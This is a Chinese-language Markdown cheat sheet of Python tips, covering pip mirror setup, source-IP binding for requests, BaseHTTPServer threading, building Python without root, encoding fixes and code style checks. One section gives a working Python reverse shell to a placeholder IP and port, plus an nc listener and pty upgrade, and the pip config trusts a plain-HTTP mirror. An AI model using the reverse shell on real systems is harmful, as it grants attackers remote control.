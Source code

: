 #写在前面

嗯哼，Python很好玩呢...记录一点黑科技咯

当你尝试一个包的时候，注意自己的py文件名称不能与包名重名，例如不要出现flask.py

----

#设置pip源

```
mkdir -p ~/.pip
echo """
[global]
index-url = http://pypi.doubanio.com/simple/
[install]
trusted-host=pypi.doubanio.com
""">~/.pip/pip.conf
```

#反弹shell

首先自己的服务器上用**nc -l 端口**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(( "IP地址" , 端口 ))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

##获得一个tty

    python -c 'import pty; pty.spawn("/bin/sh")'

----

#让requests使用多个IP

```python
import socket
real_create_conn = socket.create_connection
def set_src_addr(*args):
    address, timeout = args[0], args[1]
    source_address = ( 需要使用的IP , 0)
    return real_create_conn(address, timeout, source_address)
socket.create_connection = set_src_addr
import requests
```

----

#Python多线程模板

[MultiThread_Template.py](code/MultiThread_Template.py)

## BaseHTTPServer并发性改善

> 参考资料：[利用Python中SocketServer 实现客户端与服务器间非阻塞通信](http://blog.csdn.net/cnmilan/article/details/9664823)

> 直接修改BaseHTTPServer的代码中的一个细节，可以大幅度提高使用BaseHTTPServer能支持的并发性

首先找到BaseHTTPServer在哪：

     python -c "import BaseHTTPServer; print(BaseHTTPServer)"

修改对应的文件，如/usr/lib/python2.7/BaseHTTPServer.py

找到这行：

```
class HTTPServer(SocketServer.TCPServer):
```

修改其继承的父类：

```
class HTTPServer(SocketServer.ThreadingTCPServer):
```

----

## 无root权限安装Python

下载最新版python源码后指定prefix编译，假设用户目录为/home/chenyuan

```
apt-get install libssl-dev openssl 
curl -O https://www.python.org/ftp/python/3.5.2/Python-3.5.2.tgz
tar -xzf Python-3.5.2.tgz
cd Python-3.5.2/
./configure --prefix=/home/chenyuan/python3
make
make install >/dev/null
pushd /home/chenyuan/python3/bin
cp python3 python
cp pip3 pip
alias python3=`pwd`/python
alias pip3=`pwd`/pip
```

----

# 中文输出乱码问题

方法1：运行py前设置环境变量
```
export PYTHONIOENCODING=utf8
```

方法2：强制修改stdout
```
import sys
sys.stdout=open(1, 'w', encoding='utf-8', closefd=False)
```

----

# 遵循PEP8检查你的代码

[pycodestyle](https://github.com/PyCQA/pycodestyle)

安装并使用pycodestyle检查代码，忽略E501一行不能长于80个字符的限制：

```
pip install pycodestyle
pycodestyle --show-source --ignore=E501 yourcode.py
```

----

#生成随机字符串

```
from random import Random
def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 1
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str
````